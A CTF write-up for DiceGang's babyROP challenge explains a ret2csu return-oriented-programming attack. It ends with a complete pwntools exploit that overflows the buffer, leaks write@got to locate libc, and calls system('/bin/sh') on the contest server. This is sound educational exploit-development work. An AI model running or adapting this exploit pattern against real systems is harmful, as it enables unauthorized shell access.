 ```yaml
---
title: "babyROP [DiceGang CTF]"
date: 2021-10-04
draft: false
tags: ["csu", "ret2csu", "dicegang"]
---
```


This is a basic ROP Challenge that involves a technique called the ret2csu. We use this when there is a lack of gadgets.
<!--more-->

## Challenge Description
![](/images/babyROP_dice/challdesbabyrop.png)

## Solution:

* Checkout the mitigations of the binary
* Try to find gadgets since this is a ROP challenge. If you dont know much about ROP checkout [ROPemporium](https://ropemporium.com/).
* Craft the payload to get flag from server.

## Mitigations:
![bob](/images/babyROP_dice/mitigationdice.png)
* We can't excecute shellcode (NX Enabled)
* No Canary found - no need for brute force or leaks
* PIE disabled - the address of the binary wont be randomised

## Finding Gadgets:

Install ROPgadget to find all the gadgets in the binary.
```bash
ROPgadget --binary babyrop
```
My first thought was to ``write`` the address pointed by the got of ``write``. The idea was to leak the address of write function. Since write has already been called by the program the GOT of write will be populated and the got will point to the libc address of write. The following gadgets are needed. 
```asm
pop rdi
pop rsi 
pop rdx
```
I did not have the pop rdx register which makes the challenge a bit more intresting. So we need to find a way to set the value of RDX, RSI, RDI. 
```asm
rsi - point to the buffer [write@got]
rdi - file discriptor = 1
rdx - size of the buffer = >8
```

Since ropgadget did not give me the gadget I went to look for more gadgets in the `__libc_csu_init`. There I could find all the gadgets I wanted. 

## Crafting Exploit: 

These are the important gadgets I want.

![](/images/babyROP_dice/gadgetsdice.png)

## Idea 

First overflow the buffer with garbage and then make return jump to csu. Things to note.

```asm
0x00000000004011b0 <+64>:	mov    rdx,r14
0x00000000004011b3 <+67>:	mov    rsi,r13
0x00000000004011b6 <+70>:	mov    edi,r12d

0x00000000004011ca <+90>:	pop    rbx
0x00000000004011cb <+91>:	pop    rbp
0x00000000004011cc <+92>:	pop    r12
0x00000000004011ce <+94>:	pop    r13
0x00000000004011d0 <+96>:	pop    r14
0x00000000004011d2 <+98>:	pop    r15
0x00000000004011d4 <+100>:	ret 
```

Now we can control the RDI, RSI, RDX because we can control the r14, r13, r12 registers. Intresting area was the call to `QWORD PTR [r15+rbx*8]` inbetween these gadgets. So we decided to make this `QWORD PTR [r15+rbx*8]` as the write function. In order to do this well set r15 as the address to write@got and rbx as 0. 

```asm
0x00000000004011b9 <+73>:	call   QWORD PTR [r15+rbx*8]
0x00000000004011bd <+77>:	add    rbx,0x1
0x00000000004011c1 <+81>:	cmp    rbp,rbx
0x00000000004011c4 <+84>:	jne    0x4011b0 <__libc_csu_init+64>
```
Hmmm :(. Seems like there is a compare statement that'll make us jump back to the csu+64 (which is somewhere in the middle of csu). Now lets make rbp as 1 so we dont take the jump.

```python
buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0)
buf += p64(0)*7
buf += p64(elf.sym['main'])
```

Exploit for leaking libc write address looks something like this. :) Now lets just recv the leak and see what libc they are using. To find out their libc go to [libc.blukat.me](https://libc.blukat.me/)

![](/images/babyROP_dice/blukatdice.png)

Now its basic math, since all the address in the libc will be at the same offset from one another. Once you get the leak just find address of /bin/sh and system then just call system with /bin/sh as argument. Pretty intresting challenge and fun to solve :).

Anyway here is the exploit script for this challenge.

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './babyrop'

elf = ELF("./babyrop")

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = remote("dicec.tf", 31924)

# shellcode = asm(shellcraft.sh())

'''
0x00000000004011d3 : pop rdi ; ret

write syscall 
rdi = 1
rsi = pointer to puffer (pointer to write function)
rdx = size
'''

p.recvuntil(": ")

buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0) 
buf += p64(0)*7
buf += p64(elf.sym['main'])
p.sendline(buf)

# log.info("write leak: {}".format((hex(u64(p.recv(8))))))

leak = int(hex(u64(p.recv(8))), 16)
log.info("Write leak: {}".format(hex(leak)))

sys = leak-0xbbdc0

binsh = leak+0xa63da

buf = b"a"*72
buf += p64(0x40116b) #ret
buf += p64(0x00000000004011d3) #pop rdi 
buf += p64(binsh)
buf += p64(sys)

p.sendline(buf)

p.interactive()


```